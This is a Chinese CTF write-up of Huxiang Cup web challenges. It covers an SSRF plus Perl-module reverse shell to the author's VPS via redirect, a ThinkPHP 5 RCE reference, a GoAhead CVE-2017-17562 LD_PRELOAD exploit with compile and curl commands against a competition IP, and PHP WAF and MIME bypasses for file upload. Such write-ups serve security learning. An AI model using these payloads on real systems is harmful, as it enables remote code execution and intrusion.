

今年感受了一下湖湘杯，果然是如同师傅们说的一样：原题杯，而且最后半小时疯狂py，都是为了恰个烂钱，Web几乎都是原题，除了工控安全以外都是原题，还是蛮作个记录
untar
1 |
|
hitcon2017 ssrfme原题修改，对url参数增加了两层过滤：（1）开头必须是http://或者https://（2）过滤了|
参考：https://1isten.xyz/2018/10/03/%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%AF%B9ssrf%E7%9A%84%E7%90%86%E8%A7%A3/
利用perl后门反弹shell，把链接中的perl后门脚本ip修改成自己vps的ip，在自己vps上保存为backdoor.txt：
1 | # Where to send the reverse shell. Change these. |
然后传入payload：
1 | ?filename=URI/listen.pm&url=http://yourvps/backdoor.txt |
这样在靶机上就生成了URI目录，目录下生成了listem.pm
按照参考里的做法，再传入payload：
1 | ?filename=xxx&url=listen://1isten.xyz |
这里访问listen://1isten.xyz时，listen是未定义模块，所以会自动搜索并加载URI中的listen.pm 模块，shell就会弹到自己vps上了
但是这题限制了开头是http://
所以就考虑用自己vps进行重定向，写入：
1 | header("location:listen://1istem.xyz"); |
最后传入payload：
1 | ?filename=xxx&url=http://yourvps |
即可getshell
thinkphp?
题目直接告诉thinkphp，直接拿tp5 rce payload尝试，即可get flag
大数据安全
CVE-2017-17562(GoAhead)
参考：https://zhuanlan.zhihu.com/p/33681712
payload.c：
1 |
|
编译：
1 | gcc -shared -fPIC ./payload.c -o payload.so |
payload：
1 | curl -X POST --data-binary @payload.so http://183.129.189.62:19000/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0 -i |

工控安全（未解决）
打开靶机，是一个工控系统，扫描目录
发现info.php：
给了PHP版本5.4.1，session存储路径/tmp/
另外服务器是CGI，第一反应就是搜索关于关于CGI的0day，发现访问index.php?-s可以获得源码：
登录admin/admin进去后台，没有发现什么可以利用的
那么就只有下面的那段代码：
1 |
|
看样子是绕过waf执行最后的上传：file_put_contents('/tmp/'.$filename,$secert);
（1）绕过if(preg_match('/^\d+＄/', $keyone) && !is_numeric($keyone))，可以注意到正则匹配末尾是一个美元符号＄，而不是$，所以，我们只需要让字符串最末尾为美元符号＄，前面为数字\d，即可绕过过滤
（2）绕过$keyone == $secert，弱类型比较，不多说了
（3）绕过if(strstr($_SERVER['REQUEST_URI'],'You_Are_Cool'))，后面需要传入get参数You_Are_Cool，通过一次URL编码即可绕过
（4）绕过if(mime_content_type($f) == 'application/vnd.font-fontforge-sfd')，文件头加上内容：SplineFontDB: 3.0即可绕过
最后本地测试的payload：
可以上传文件，但是只能写到/tmp目录下，由于代码：
1 | if(!strstr($filename,".")){ |
无法进行路径穿越
结合之前info.php中的session存储路径：/tmp目录下，可以写入session进行反序列化，但是没有想到要如何利用反序列化，因为没有读到其他源码
后面给了个提示：Copyright 2011，不懂什么意思，太菜了，唯一有点质量的题也不会做，只能作罢